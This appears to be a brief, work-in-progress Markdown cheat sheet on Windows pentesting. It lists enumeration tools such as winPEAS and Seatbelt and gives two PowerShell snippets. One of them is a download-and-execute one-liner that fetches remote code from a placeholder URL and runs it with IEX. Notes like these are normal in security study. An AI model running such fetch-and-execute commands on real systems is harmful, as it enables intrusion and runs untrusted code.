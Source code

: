 # Windows
**work in progress**

- [Windows](#windows)
  - [Enumeration](#enumeration-on-windows)
  - [Other](#other)
  - [Privilege Escalation](#)

## Enumeration on windows
Automated enumeration tools:
- [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
- [Seatbelt](https://github.com/GhostPack/Seatbelt)
- [SharpUp](https://github.com/GhostPack/SharpUp)

## Other
Some useful stuff.

### Powershell: download files
```powershell
Invoke-WebRequest <URL> -Outfile <PATH>
```

### Powershell: download and execute file
```powershell
IEX(New-Object Net.WebClient).downloadString("URL")
```
